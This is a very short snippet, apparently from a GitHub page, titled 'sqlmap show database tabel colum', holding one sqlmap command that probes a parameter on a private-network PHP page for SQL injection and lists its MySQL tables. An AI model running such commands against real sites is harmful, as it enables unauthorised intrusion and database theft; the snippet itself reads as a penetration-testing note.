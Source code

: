# sqlmap show database tabel colum #

````
sqlmap -u "http://192.168.1.2/pe/index.php?parameter=value" --dbms=mysql --batch --tables
````
